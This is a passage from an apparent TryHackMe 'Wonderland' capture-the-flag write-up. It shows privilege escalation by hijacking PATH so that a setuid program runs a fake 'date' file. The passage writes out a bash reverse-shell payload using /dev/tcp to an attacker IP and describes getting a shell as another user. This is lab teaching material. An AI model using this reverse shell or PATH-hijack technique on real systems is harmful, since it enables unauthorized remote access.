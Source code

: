 That means we can create our own version of `date` (which can just be a bash reverse shell) and then set a directory we have control over to be the first entry in the system path.

Now, we'll set up our own `date` file with a reverse shell.

Just before that we'll set the path.

![[wonderland_26.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/Wonderland/images/wonderland_26.png)

Now set up a listener, echo the rev shell to a file called `date`, make `date` executable and execute the `teaParty` file.

Remember, because the `UID` gets changed, this will give us a shell as `Hatter`.

The payload we will use is:

- `echo "bash -c 'bash -i >& /dev/tcp/<AB_IP>/4142 0>&1'" > date`

`bash -c` is required otherwise the shell won't fire. It's possible also to use many other types of shells. This is just a very simple one to quickly fire off.

![[wonderland_27.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/Wonderland/images/wonderland_27.png)

Now for more enumeration.

After a few commands we will find a password for `hatter`.

![[wonderland_28.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/Wonderland/images/wonderland_28.png)
